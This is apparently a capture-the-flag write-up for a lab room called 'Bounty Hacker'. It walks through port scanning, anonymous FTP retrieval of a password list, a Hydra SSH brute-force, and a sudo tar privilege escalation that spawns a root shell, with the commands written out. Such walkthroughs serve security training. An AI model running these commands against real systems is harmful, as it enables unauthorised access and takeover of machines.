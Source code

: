 ## General Information
- Room: Bounty Hacker
- Difficulty: Easy
- Date: 12/11/2023
- Description: "You talked a big game about being the most elite hacker in the solar system. Prove it and claim your right to the status of Elite Bounty Hacker!" 


## Methodology
- Utilized Nmap for initial reconnaissance.
- Exploited FTP service to retrieve files.
- Employed Hydra for SSH brute-force attack.
- Leveraged SSH for initial access.
- Discovered and exploited a privilege escalation vulnerability using GTFOBins.


## Results

### Reconnaissance
- IP: 10.10.217.109      
- Port Scan results:

| PORT   | STATE | SERVICE    | VERSION                                |
|--------|-------|------------|----------------------------------------|
| 21/tcp | open  | ftp        | vsftpd 3.0.3                           |
| 22/tcp | open  | ssh        | OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http       | Apache httpd 2.4.18 (Ubuntu)            |

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

### Tools and Exploitation

#### Nmap Scan
~~~nmap
nmap -sV -oN nmap_scan.txt 10.10.217.109 
~~~

#### FTP
~~~ftp
ftp 10.10.217.109                        
Name (10.10.217.109:kali): anonymous
ftp> get locks.txt
ftp> get task.txt
~~~

#### Hydra SSH Brute-force
~~~hydra
$ hydra -l lin -P locks.txt ssh://10.10.217.109
~~~

#### SSH Access
~~~ ssh
$ ssh lin@10.10.217.109
~~~

#### Privilege Escalation (GTFOBins)
~~~ GTFOBins
sudo -l
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
~~~


### Exploited Vulnerabilities
- FTP Anonymous Login: Exploited anonymous FTP login to retrieve files locks.txt and task.txt.
- SSH Brute-force: Successfully gained access to SSH using Hydra and the provided password file.
- Privilege Escalation: Exploited the sudo configuration for tar command to gain root access using the GTFOBins technique.
